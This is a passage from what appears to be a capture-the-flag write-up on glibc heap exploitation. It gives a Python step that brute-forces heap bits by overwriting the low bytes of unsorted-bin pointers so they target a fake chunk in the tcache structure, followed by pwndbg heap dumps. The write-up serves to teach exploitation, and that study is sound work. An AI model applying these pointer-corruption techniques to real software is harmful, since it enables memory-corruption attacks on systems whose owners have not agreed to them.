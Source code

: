 Using the following, we can bruteforce 4 bits of the heap, overwriting the `LSB` of the `FWD` and `BCK` pointer of the two unsorted bin entries. This will be used to make it point to our faked chunk in the `per-thread cache`:
```python
#############################################################################################
# Change the FWD and BCK pointers of the unsorted bin entires to our faked chunk in mgmt    #
#############################################################################################

malloc(0xd8, p16(0x6080), 0xa8) # BCK
malloc(0xe8, p16(0x6080), 0xa0) # FWD 
```

After running it a few times, you will eventually reach the correct heap address, making our heap look like the following:
```
pwndbg> bins

[...]

unsortedbin
all: 0x56542aec7df0 —▸ 0x56542aec6080 —▸ 0x56542aec7b90 —▸ 0x7fa2065fed00 ◂— 0x56542aec7df0
smallbins
empty
largebins
empty
pwndbg> vis 0

0x56542aec6000	0x0000000000000000	0x0000000000000291	................
0x56542aec6010	0x0000000000010001	0x0007000000000000	................
0x56542aec6020	0x0000000000000000	0x0007000000000000	................
0x56542aec6030	0x0000000000000000	0x0000000000000000	................
0x56542aec6040	0x0000000000070000	0x0000000000000000	................
0x56542aec6050	0x0000000000000000	0x0000000000000000	................
0x56542aec6060	0x0000000000000000	0x0000000000000000	................
0x56542aec6070	0x0000000000000000	0x0000000000000000	................
0x56542aec6080	0x0000000000000000	0x0000000000010001	................	 <-- unsortedbin[all][1]
0x56542aec6090	0x000056542aec7b90	0x000056542aec7df0	.{.*TV...}.*TV..
0x56542aec60a0	0x0000000000000000	0x0000000000000000	................
0x56542aec60b0	0x0000000000000000	0x0000000000000000	................
0x56542aec60c0	0x0000000000000000	0x000056542aec6620	........ f.*TV..
0x56542aec60d0	0x0000000000000000	0x0000000000000000	................
0x56542aec60e0	0x0000000000000000	0x0000000000000000	................
0x56542aec60f0	0x00007fa7631d439f	0x00007fa7631d439f	.C.c.....C.c....
0x56542aec6100	0x0000000000000000	0x000056542aec86a0	...........*TV..
0x56542aec6110	0x0000000000000000	0x0000000000000000	................
0x56542aec6120	0x0000000000000000	0x0000000000000000	................
0x56542aec6130	0x0000000000000000	0x0000000000000000	................
0x56542aec6140	0x0000000000000000	0x0000000000000000	................
0x56542aec6150	0x0000000000000000	0x000056542aec70d0	.........p.*TV..
0x56542aec6160	0x0000000000000000	0x0000000000000000	................
0x56542aec6170	0x0000000000000000	0x0000000000000000	................
0x56542aec6180	0x0000000000000000	0x0000000000000000	................
0x56542aec6190	0x0000000000000000	0x0000000000000000	................
0x56542aec61a0	0x0000000000000000	0x0000000000000000	................
0x56542aec61b0	0x0000000000000000	0x0000000000000000	................
0x56542aec61c0	0x0000000000000000	0x0000000000000000	................
0x56542aec61d0	0x0000000000000000	0x0000000000000000	................
0x56542aec61e0	0x0000000000000000	0x0000000000000000	................
0x56542aec61f0	0x0000000000000000	0x0000000000000000	................
0x56542aec6200	0x0000000000000000	0x0000000000000000	................
0x56542aec6210	0x0000000000000000	0x0000000000000000	................
0x56542aec6220	0x0000000000000000	0x0000000000000000	................
0x56542aec6230	0x0000000000000000	0x0000000000000000	................
0x56542aec6240	0x0000000000000000	0x0000000000000000	................
```
